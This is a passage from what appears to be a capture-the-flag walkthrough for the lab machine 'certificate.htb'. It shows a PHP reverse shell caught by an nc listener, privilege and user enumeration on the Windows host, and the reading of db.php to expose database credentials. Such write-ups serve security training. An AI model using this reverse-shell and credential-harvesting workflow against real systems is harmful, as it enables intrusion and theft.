 Changing our payload to a [php reverse shell](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}, we can get a foothold onto the server! I used `PHP Ivan Sincek` and `powershell`
```powershell
┌──(kali@kali)-[~/certificate.htb]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.71] 57047
SOCKET: Shell has connected! PID: 1920
Microsoft Windows [Version 10.0.17763.6532]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\certificate.htb\static\uploads\8ad6b1453a685cd6a629959dcfb5039d>whoami
certificate\xamppuser

C:\xampp\htdocs\certificate.htb\static\uploads\8ad6b1453a685cd6a629959dcfb5039d>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
## user.txt
### xamppuser -> sara.b
Let's enumerate users
```powershell
C:\xampp\htdocs\certificate.htb\static\uploads\fd5b3018c29991130b22f3381786067b>net users

User accounts for \\DC01

-------------------------------------------------------------------------------
Administrator            akeder.kh                Alex.D                   
Aya.W                    Eva.F                    Guest                    
John.C                   Kai.X                    kara.m                   
karol.s                  krbtgt                   Lion.SK                  
Maya.K                   Nya.S                    Ryan.K                   
saad.m                   Sara.B                   xamppuser                
The command completed successfully.
```

Remember the `DB.php` file we found earlier through directory brute force? Now we can read its contents
```powershell
C:\xampp\htdocs\certificate.htb>type db.php
```

```php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
```